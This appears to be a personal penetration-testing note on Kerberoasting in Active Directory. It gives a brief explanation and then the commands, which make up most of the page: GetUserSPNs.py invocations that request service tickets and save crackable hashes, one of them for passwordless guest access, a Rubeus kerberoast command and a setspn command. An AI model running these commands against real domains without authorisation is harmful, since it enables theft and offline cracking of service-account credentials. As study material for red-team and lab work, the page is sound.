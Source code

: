 **Kerberoasting** is an attack method used in Active Directory environments where an attacker targets service accounts. It works by requesting and then cracking the service account’s Kerberos ticket (TGS—Ticket Granting Service). E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs.py domain.local/USER:PASSWORD@DC_IP {-dc-ip} DC_IP -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```
GetUserSPNs.py domain.local/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip DC_IP -no-pass
```

Kerberoasting (from computer on the domain):
```powershell
.\Rubeus.exe kerberoast /nowrap
```

Create an SPN:

```cmd
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```